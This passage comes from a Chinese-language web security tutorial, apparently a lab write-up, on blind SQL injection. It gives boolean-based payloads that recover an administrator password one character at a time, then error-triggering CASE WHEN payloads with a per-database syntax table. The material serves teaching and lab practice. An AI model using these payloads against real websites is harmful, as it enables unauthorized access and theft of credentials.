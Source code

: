 ![image-20220115115000603](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115115000603.png)

```sql
'AND (SELECT 'a' FROM Users WHERE Username='administrator' AND LENGTH(Password)=1)='a
```

![image-20220115114848641](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115114848641.png)

密码长度为20

继续猜解每一位密码

![image-20220115115743501](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115115743501.png)

```sql
'AND (SELECT SUBSTRING (Password,1,1) FROM Users WHERE Username='administrator')='a
```

![image-20220115115512942](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115115512942.png)

依次猜解结果为：pt51g0yboco1bg8utmzm

![image-20220115120641861](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115120641861.png)

#### 通过触发SQL错误引发响应

当网站执行构造的SQL语句时，并未返回不同的网站响应。可以通过有条件的出发SQL错误来诱导返回条件响应。 

通常会对SQL查询语句进行修改，以便条件为真时导致数据库错误，一般是Error Message。

假设发送了两个请求

```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

第一个语句因为判断1=2时为False所以跳转至ELSE

第二个语句1=1判断为True则发生了1/0的除零错误，用此差异判断注入语句条件。

如：

```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

##### 条件错误

| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual` |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END` |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |
